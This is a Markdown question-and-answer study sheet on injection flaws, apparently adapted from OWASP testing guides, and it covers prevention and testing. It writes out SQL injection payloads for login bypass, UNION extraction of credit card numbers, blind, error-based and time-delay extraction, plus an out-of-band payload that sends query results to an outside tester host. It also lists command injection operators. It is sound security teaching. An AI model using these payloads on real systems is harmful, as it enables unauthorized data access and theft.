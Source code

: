 # Injection

## Links
[OWASP: injection](https://owasp.org/www-project-top-ten/2017/A1_2017-Injection)

[SAST](https://owasp.org/www-community/Source_Code_Analysis_Tools)

[DAST](https://owasp.org/www-community/Vulnerability_Scanning_Tools)

[Testing for SQL Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection)

[Testing for Command Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection)

[Testing for ORM Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.7-Testing_for_ORM_Injection)

[Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html)

## Questions

<details>
  <summary>What is the injection?</summary>

  It is possible to inject data into almost all sources. Injection flaws occur when an attacker can send hostile data. Injection vulnerabilities are very prevalent, particularly in legacy code. SQL, LDAP, XPath or NoSQL queries, OS commands, XML parsers, SMTP headers, expression languages and ORM queries often are vulnerable to injection. The injection can result in data loss, corruption, disclosure to unauthorized parties, loss of accountability, or denial of access. Also, the injection can sometimes lead to a complete host takeover.

</details>

<details>
  <summary>When is an application is vulnerable?</summary>

  * when user-supplied data is not validated, filtered, or sanitized by the application;

  * when dynamic queries or non-parameterized calls without context-aware escaping are used directly in the interpreter;

  * when using hostile data within object-relational mapping (ORM) search parameters to extract additional, sensitive records;

  * when the SQL or command contains both structure and hostile data in dynamic queries, commands, or stored procedures (directly using).

</details>

<details>
  <summary>How to prevent injection?</summary>

  * Use a safe API, which avoids direct using an interpreter entity or provides a parameterized interface or uses Object Relational Mapping Tools (ORMs);

  * Use a positive serverside input validation;

  * Escape special characters for dynamic queries; 

  * Use LIMIT and other SQL controls within queries to prevent mass disclosure of records in case of SQL injection.

</details>

<details>
  <summary>What tools could help to avoid injection?</summary>

  * Static Application Security Testing (SAST)
  
  * Dynamic Application Security Testing (DAST)

</details>

<details>
  <summary>What are the criteria for secure database access?</summary>

  * secure queries:

  SQL Injection occurs when untrusted user input is dynamically added to a SQL query in an insecure manner, often via basic string concatenation. An attacker can get a foothold on your network by it. The best way of protection is using a programming technique known as query Parameterization. It allows the database to distinguish between code and data.

  * secure configuration:

  It is possible to use a secure database configuration. Need to be sure that security controls are available from the Database Management System and hosting platform is enabled and properly configured.

  * secure authentication:

  Authentication should take place only over a secure channel.

  * secure communication:

  Most DBMS support a set of communications methods - secure and insecure. It is a good practice to use secure communications options.

</details>

<details>
  <summary>What is the ASVS(Application Security Verification Standard)?</summary>

  The ASVS provides a basis for testing web application technical security controls and provides developers with a list of requirements for secure development. The requirements are following objectives in mind:

  * Use as a metric: provide application developers and application owners with a yardstick that allows assessing the degree of trust in your application;

  * Use as guidance: guide security control developers as to what to build into security controls to satisfy application security requirements;

  * Use during procurement: provide a basis for specifying application security verification requirements in contracts.

</details>

<details>
  <summary>What are classes of the SQL injection?</summary>

  Inband(inside): extract data by the same channel as for injection of the SQL code.
  
  Out-of-band(outside): data is retrieved using a different channel.
  
  Inferential or Blind: there is no actual transfer of data, but the tester can reconstruct the information by sending particular requests and observing the resulting behaviour of the DB Server.

</details>

<details>
  <summary>What are SQL injection techniques?</summary>

  It is possible to use five general techniques or their combinations.

  Union Operator: use when the SQL injection flaw happens in a SELECT statement, making it possible to combine two queries into a single result or result set;

  Boolean: use Boolean condition(s) to verify whether certain conditions are true or false;

  Error based: this technique forces the database to generate an error, giving the attacker or taster information which to refine their injection;

  Out-of-band: the technique used to retrieve data using a different channel;

  Time delay: use database commands to delay answers in conditional queries. It is useful when an application doesn't provide results, outputs or errors to an attacker.

</details>

<details>
  <summary>What are detection techniques?</summary>

  Firstly need to understand when the application interacts with a DB Server to access some data. Typical examples:

  Authentication forms: if authentication uses a web form, generally, an application will check user credentials;

  Search engines: if the SQL query extracts all relevant records from a database, it will be possible to use submitted string;

  E-Commerce sites: the products and their characteristics are very likely to be stored in a database.

  The tester should check by an input fields list whose values could be used in SQL queries separately.

</details>

<details>
  <summary>What is standard SQL injection testing (Classic SQL injection)?</summary>

  Consider the following SQL query:
  
  `SELECT * FROM Users WHERE Username='$username' AND Password='$password'`

  Suppose we insert the following Username and Password values:

  `$username = 1' or '1' = '1`

  `$password = 1' or '1' = '1`

  The query will be:

  `SELECT * FROM Users WHERE Username='1' OR '1' = '1' AND Password='1' OR '1' = '1'`

  If the values was sent by the GET method and if the domain was `www.example.com`, the request would be:

  `http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1&amp;password=1'%20or%20'1'%20=%20'1`

  After a short analysis, we notice that the query returns a value (or a set of values) because the condition has a successful result (OR 1=1).

  Another example query is the following:

  `SELECT * FROM Users WHERE ((Username='$username') AND (Password=MD5('$password')))`

  The query has two problems: the parentheses and the MD5 hash function. The values could be:

  `$username = 1' or '1' = '1'))/*`

  `$password = foo`

  In this way, we’ll get the following query:

  `SELECT * FROM Users WHERE ((Username='1' or '1' = '1'))/*') AND (Password=MD5('$password')))`

  (Due to the inclusion of a comment delimiter in the $username value the password portion of the query will be ignored.)
  The request URL will be:

  `http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1'))/*&amp;password=foo`

  It may return many values. Sometimes, the authentication code verifies that the number of returned records/results is equal to 1. Could be use next values:

  `$username = 1' or '1' = '1')) LIMIT 1/*`

  `$password = foo`

  In this way, we create a request like the following:

  `http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1'))%20LIMIT%201/*&amp;password=foo`

</details>

<details>
  <summary>What is standard SQL injection testing (SELECT Statement)?</summary>

  Consider the following SQL query:

  `SELECT * FROM products WHERE id_product=$id_product`

  Consider also the request to a script that executes the query above:

  `http://www.example.com/product.php?id=10`

  When the tester tries a valid value (e.g. 10 in this case), the application will return the description of a product. It is possible to try to use the AND and OR operators.

  Consider the request:

  `http://www.example.com/product.php?id=10 AND 1=2`

  `SELECT * FROM products WHERE id_product=10 AND 1=2`

  In this case, probably the application would return some message telling us there is no content available or a blank page. Then the tester can send a true statement and check if there is a valid result:

  `http://www.example.com/product.php?id=10 AND 1=1`

</details>

<details>
  <summary>What is standard SQL injection testing (Stacked Queries)?</summary>

  If an application uses the DBMS (e.g. PHP + PostgreSQL, ASP+SQL SERVER) will be possible to execute multiple queries in one call.

  Consider the following SQL query:

  `SELECT * FROM products WHERE id_product=$id_product`

  A way to exploit the above scenario would be:

  `http://www.example.com/product.php?id=10; INSERT INTO users (…)`

  This way is possible to execute many queries in a row and independent of the first query.

</details>

<details>
  <summary>How understand what backend database uses?</summary>

  The first way to find out what back end database uses is by observing the error returned by the application. The following are some examples of error messages:

  MySql:

    You have an error in your SQL syntax; check the manual
    that corresponds to your MySQL server version for the
    right syntax to use near '\'' at line 1

  `SELECT id, name FROM users WHERE id=1 UNION SELECT 1, version() limit 1,1`

  Oracle:

    ORA-00933: SQL command not properly ended
    MS SQL Server:
    Microsoft SQL Native Client error ‘80040e14’
    Unclosed quotation mark after the character string

  `SELECT id, name FROM users WHERE id=1 UNION SELECT 1, @@version limit 1, 1`

  PostgreSQL:

    Query failed: ERROR: syntax error at or near
    "’" at character 56 in /www/site/test.php on line 121.

  If there is no error message or a custom error message, the tester can inject it into string fields using varying concatenation techniques.

</details>

<details>
  <summary>How understand what backend database uses (Union Exploitation Technique)?</summary>

  The UNION operator is used in SQL injections to join a query, purposely forged by the tester, to the original one. It allows obtaining values from other tables. Look at the following example:

  `SELECT Name, Phone, Address FROM Users WHERE Id=$id`

  We will set the following $id value:

  `$id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable`

  We will have the following query:

  `SELECT Name, Phone, Address FROM Users WHERE Id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable`

  The keyword ALL is necessary to get around queries that use the keyword DISTINCT. Moreover, we notice that beyond the credit card numbers, we have selected two other values. They allow avoiding a syntax error.

  The first detail a tester needs to exploit the SQL injection vulnerability using the technique is to find the correct numbers of columns in the SELECT statement.

  The tester can use ORDER BY clause followed by a number indicating the numeration of the column selected:

  `http://www.example.com/product.php?id=10 ORDER BY 10--`

  After the tester finds out the numbers of columns, the next step is to find out the type of columns. Assuming there were three columns in the example above, the tester could try each column type, using the NULL value to help them:

  `http://www.example.com/product.php?id=10 UNION SELECT 1,null,null--`

  If the query fails, the tester will probably see a message like:

    All cells in a column must have the same datatype
    If the query executes with success, the first column can be an integer. Then the tester can move further and so on:

  `http://www.example.com/product.php?id=10 UNION SELECT 1,1,null--`

  After gathering successful information, the application may only show one line of the result because the application treats only the first line. It is possible to use a LIMIT clause or the tester can set an invalid value, making only the second query valid:

  `http://www.example.com/product.php?id=99999 UNION SELECT 1,1,null--`

</details>

<details>
  <summary>How understand what backend database uses (Boolean Exploitation Technique)?</summary>

  The technique is well during blind SQL Injection if the tester cannot get information about a database from an outcome. For example, if a programmer has created a custom error page that does not provide information from a database.

  The method consists of carrying out a series of boolean queries against the server, observing the answers and finally deducing the meaning of such answers. Consider the www.example.com domain and suppose that it contains a parameter named id vulnerable to SQL injection. It means that carrying out the following request:

  `http://www.example.com/index.php?id=1'`

  Suppose that the database query would be:

  `SELECT field1, field2, field3 FROM Users WHERE Id='$Id'`

  The tests that we will execute will allow us to obtain the value of the username field, extracting such value character by character. It is possible to present in practically every database using some standard functions. For our examples:

  * SUBSTRING (text, start, length);
  * ASCII (char);
  * LENGTH (text).

  As an example, we will use the following value for Id:

  `$Id=1' AND ASCII(SUBSTRING(username,1,1))=97 AND '1'='1`

  That creates the following query:

  `SELECT field1, field2, field3 FROM Users WHERE Id='1' AND ASCII(SUBSTRING(username,1,1))=97 AND '1'='1'`

  The previous example returns a result if and only if the first character of the field username is equal to the ASCII value 97. But it could be a problem to understand which way could distinguish tests returning a true value from those that return false. Create the query that always returns true:

  `$Id=1' AND '1' = '2`

  Which will create the following query:

  `SELECT field1, field2, field3 FROM Users WHERE Id='1' AND '1' = '2'`

  It is possible to get length of the field:

  `$Id=1' AND LENGTH(username)=N AND '1' = '1`

  Where N is the number of characters that we have analyzed up to now:

  `SELECT field1, field2, field3 FROM Users WHERE Id='1' AND LENGTH(username)=N AND '1' = '1'`

  The blind SQL injection attack needs a high volume of queries. The tester may need an automatic tool to exploit the vulnerability.

</details>

<details>
  <summary>How understand what backend database uses (Error Based Exploitation Technique)?</summary>

  The technique could be used by a tester when he cannot use one of the other techniques. The point is data extraction from the database by error messages.

  Consider the following SQL query:

  `SELECT * FROM products WHERE id_product=$id_product`

  Consider also the request to a script that executes the query above:

  `http://www.example.com/product.php?id=10`

  The malicious request would be (e.g. Oracle 10g):

  `http://www.example.com/product.php?id=10||UTL_INADDR.GET_HOST_NAME( (SELECT user FROM DUAL) )--`

  In this example, the tester is concatenating the value 10 with the result of the function UTL_INADDR.GET_HOST_NAME. This Oracle function will try to return the hostname of the parameter passed to it, which is another query, the name of the user. When the database looks for a hostname with the user database name, it will fail and return an error message like:

  `ORA-292257: host SCOTT unknown`

  Then the tester can manipulate the parameter passed to GET_HOST_NAME() function and the result will be shown in the error message.

</details>

<details>
  <summary>How understand what backend database uses (Out of Band Exploitation Technique)?</summary>

  The technique consists of DBMS functions to perform an out of band connection and deliver the results of the injected query as part of the request to the tester’s server.

  Consider the following SQL query:

  `SELECT * FROM products WHERE id_product=$id_product`

  Consider also the request to a script that executes the query above:

  `http://www.example.com/product.php?id=10`

  The malicious request would be:

  `http://www.example.com/product.php?id=10||UTL_HTTP.request(‘testerserver.com:80’||(SELECT user FROM DUAL)--`

  UTL_HTTP.request function will try to connect to the fake server and make an HTTP GET request containing the return from the query: SELECT user FROM DUAL.

</details>

<details>
  <summary>How understand what backend database uses (Time Delay Exploitation Technique)?</summary>

  The technique consists in sending an injected query. If the conditional was true, the tester would monitor the server response time. 

  Consider the following SQL query:

  `SELECT * FROM products WHERE id_product=$id_product`

  Consider also the request to a script that executes the query above:

  `http://www.example.com/product.php?id=10`

  The malicious request would be (e.g. MySql 5.x):

  `http://www.example.com/product.php?id=10 AND IF(version() like ‘5%’, sleep(10), ‘false’))--`

  In this example the tester checks whether the MySql version is 5.x or not, making the server sleep for 10 seconds. The tester can increase the delay time and monitor the responses.

</details>

<details>
  <summary>What is a stored procedure injection?</summary>

  When using dynamic SQL within a stored procedure, the application must properly sanitize the user input to eliminate the risk of code injection. If not sanitized, the user could enter malicious SQL that will be executed within the stored procedure.
  
  Consider the following SQL Server Stored Procedure:
  
    Create procedure user_login @username varchar(20), @passwd varchar(20)
    As
    Declare @sqlstring varchar(250)
    Set @sqlstring  = ‘
    Select 1 from users
    Where username = ‘ + @username + ‘ and passwd = ‘ + @passwd
    exec(@sqlstring)
    Go
  
  User input:
  
  `anyusername or 1=1'`
  
  `anypassword`
  
  This procedure does not sanitize the input and allow the return value to show an existing record with these parameters.

</details>

<details>
  <summary>What is OS command injection?</summary>

  OS command injection is a technique used via a web interface to execute OS commands on a web server. Any web interface that does not sanitize data is subject to this exploit.

</details>

<details>
  <summary>How to test command injection?</summary>

  When viewing a file in a web application, often the filename is in the URL. Perl allows piping data from a process into an open statement. The user can append the Pipe symbol | onto the end of the filename.

  Example URL before alteration:

  `http://sensitive/cgi-bin/userData.pl?doc=user1.txt`

  Example URL modified:

  `http://sensitive/cgi-bin/userData.pl?doc=/bin/ls|`

  It would execute the command /bin/ls.

</details>

<details>
  <summary>What special characters are possible to use for command injection?</summary>

  The following special character can be used for command injection such as | ; & $ > < ' !

  * cmd1|cmd2 : Uses of | will make command 2 to be executed weather command 1 execution is successful or not.
  * cmd1;cmd2 : Uses of ; will make command 2 to be executed weather command 1 execution is successful or not.
  * cmd1||cmd2 : Command 2 will only be executed if command 1 execution fails.
  * cmd1&&cmd2 : Command 2 will only be executed if command 1 execution succeeds.
  * $(cmd) : For example, echo $(whoami) or $(touch test.sh; echo 'ls' > test.sh)
  * cmd : It’s used to execute specific command. For example, whoami
  * >(cmd): >(ls)
  * <(cmd): <(ls)

</details>

<details>
  <summary>What is ORM injection?</summary>

  Object-relational mapping (ORM) Injection use SQL Injection in ORM generated data access object model.

</details>

<details>
  <summary>How to test ORM injection?</summary>

  ORM layers can be prone to vulnerabilities as they extend the surface of the attack. Instead of directly targeting the application with SQL queries, you’d be focusing on abusing the ORM layer to send malicious SQL queries.

</details>
